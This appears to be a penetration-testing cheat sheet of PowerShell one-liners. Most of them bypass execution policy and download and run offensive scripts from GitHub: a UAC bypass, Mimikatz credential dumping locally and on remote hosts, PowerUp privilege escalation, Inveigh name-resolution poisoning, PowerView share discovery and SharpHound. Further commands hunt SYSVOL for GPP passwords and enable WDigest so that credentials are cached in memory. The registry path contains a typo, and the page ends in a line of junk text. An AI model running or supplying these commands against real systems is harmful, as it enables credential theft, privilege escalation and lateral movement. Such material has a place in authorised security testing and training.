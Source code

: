 ```yaml
---
description: Collection of PowerShell one-liners to use at various stages of testing.
---
```


# One-liners

## Powershell <a href="#invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command" id="invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command"></a>

### Invoke-BypassUAC and start PowerShell prompt as Administrator \[Or replace to run any other command] <a href="#invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command" id="invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command"></a>

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

### Invoke-Mimikatz: Dump credentials from memory

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

### Import Mimikatz Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```

### Invoke-MassMimikatz: Use to dump creds on remote host

replace $env:computername with target server name(s)\*\*

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```

### PowerUp: Privilege escalation checks

```powershell
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

### Invoke-Inveigh and log output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"
```

Invoke-ShareFinder and print output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```

### Import PowerView Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

### Invoke-Bloodhound

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

### Find GPP Passwords in SYSVOL

```powershell
findstr /S cpassword $env:logonserver\sysvol\*.xml findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

### Run Powershell prompt as a different user, without loading profile to the machine

replace DOMAIN and USER\*\*

```powershell
runas /user:DOMAIN\USER /noprofile powershell.exe
```

### Insert reg key to enable Wdigest on newer versions of Windows

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```

SOme shit fbudskjagfblsudg
